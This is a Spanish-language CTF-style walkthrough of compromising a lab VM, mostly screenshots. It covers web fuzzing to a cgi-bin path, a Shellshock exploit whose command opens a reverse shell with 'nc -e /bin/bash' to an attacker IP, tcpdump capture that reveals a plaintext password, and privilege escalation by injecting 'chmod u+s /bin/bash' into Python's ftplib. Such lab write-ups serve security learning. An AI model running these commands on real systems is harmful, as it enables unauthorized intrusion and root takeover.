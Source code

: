 Hacemos el reconocimiento con nmap:
![[Pasted image 20230923120606.png]]
Y esta sería la página web que corre por el puerto 80:
![[Pasted image 20230923120726.png]]
Viendo el código fuente nos encontramos con esto:
![[Pasted image 20230923120757.png]]
Hacemos fuzzing web y nos encontramos con el directorio gate:
![[Pasted image 20230923121142.png]]
![[Pasted image 20230923121157.png]]
Seguimos haciendo fuzzing y nos encontramos con el directorio cerberus:
![[Pasted image 20230923121422.png]]
![[Pasted image 20230923121431.png]]
Y ahora si volvemos a hacer fuzzing, nos encontramos con el directorio tartarus (pero usando el diccionario common.txt):
![[Pasted image 20230923121654.png]]
![[Pasted image 20230923121711.png]]
Y dentro del código fuente tenemos esto:
![[Pasted image 20230923121734.png]]
De todos modos, si volvemos a hacer fuzzing desde la raíz pero usando el diccionario common.txt, vemos el directorio cgi-bin:
![[Pasted image 20230923121831.png]]
Y si hacemos fuzzing otra vez pero sobre el cgi-bin, vemos el directorio underworld:
![[Pasted image 20230923122003.png]]
![[Pasted image 20230923122021.png]]
Al tratarse de un cgi-bin, podemos pensar que estamos ante un shellshock, por lo que buscamos exploits en metasploit:
![[Pasted image 20230923122231.png]]
Establecemos la siguiente configuración en el exploit:
![[Pasted image 20230923122359.png]]
Y así nos debería quedar la configuración:
![[Pasted image 20230923122435.png]]
Y así debería funcionar, aunque podemos hacerlo de forma manual:
![[Pasted image 20230923122634.png]]
Nos lo bajamos:
![[Pasted image 20230923122703.png]]
Y ejecutamos el exploit de la siguiente manera:
```bash
php 34766.php -u http://192.168.0.72/cgi-bin/underworld/ -c "nc -e /bin/bash 192.168.0.63 443"
```
![[Pasted image 20230923122846.png]]
Y recibimos la conexión:
![[Pasted image 20230923122916.png]]
Vamos a descargar y ejecutar el pspy dentro de esta máquina para conocer si hay algo corriendo por detrás:
![[Pasted image 20230923123126.png]]
![[Pasted image 20230923123144.png]]
Y vemos que se está ejecutando un script con python2 dentro del directorio /opt:
![[Pasted image 20230923123236.png]]
Pero no tenemos permisos para acceder:
![[Pasted image 20230923123309.png]]
Pero sí podemos capturar el tráfico de red de este servicio usando tcpdump, por lo que primero listamos las interfaces de red:
![[Pasted image 20230923123449.png]]
Y ahora capturamos el tráfico de la interfaz .lo:
```bash
tcpdump -i lo -w captura.pcap
```
![[Pasted image 20230923123632.png]]
Y ahora este pcap vamos a compartirlo con mi máquina atacante para analizarlo con wireshark:
![[Pasted image 20230923123742.png]]
![[Pasted image 20230923123752.png]]
Y nos encontramos con una contraseña:
![[Pasted image 20230923123930.png]]
```
hades:PTpZTfU4vxgzvRBE
```
Y sabemos que hay otro usuario llamado hades, además de estar abierto el puerto 22:
![[Pasted image 20230923124047.png]]
Y tenemos acceso por ssh:
![[Pasted image 20230923124144.png]]
Y ahora sí tenemos acceso al directorio /opt:
![[Pasted image 20230923124209.png]]
Y vemos que podemos escribir dentro de este script:
![[Pasted image 20230923124339.png]]
Por tanto miramos a ver la librería ftplib para ver si la podemos editar e inyectar ahí un comando malicioso:
```bash
nano /usr/lib/python2.7/ftplib.py
```
Y al principio del todo añadimos la librería os para cambiar los permisos de la bash
```python
import os

os.system("chmod u+s /bin/bash")
```

